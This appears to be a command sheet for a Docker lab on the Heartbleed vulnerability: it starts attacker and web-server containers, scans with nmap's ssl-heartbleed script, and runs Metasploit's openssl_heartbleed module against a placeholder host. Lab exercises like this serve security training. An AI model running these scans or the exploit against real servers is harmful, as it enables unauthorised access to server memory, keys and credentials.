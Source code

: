 # Start the attacker container image
docker compose run attacker bash
# Or
docker-compose run attacker bash

# Start web server
docker-compose up -d web-server


# Scan heartbleed vulnerability from the attacker container
nmap -sV -p 443 --script=ssl-heartbleed web-server
nmap -sV -p 443 --script=ssl-heartbleed IP-adder-of-web-server

# Scan from local machine not container
sudo nmap -sV -p 8443 --script=ssl-heartbleed 127.0.0.1



msfconsole -q

use auxiliary/scanner/ssl/openssl_heartbleed

set RHOSTS <site-ip>

set VERBOSE true

exploit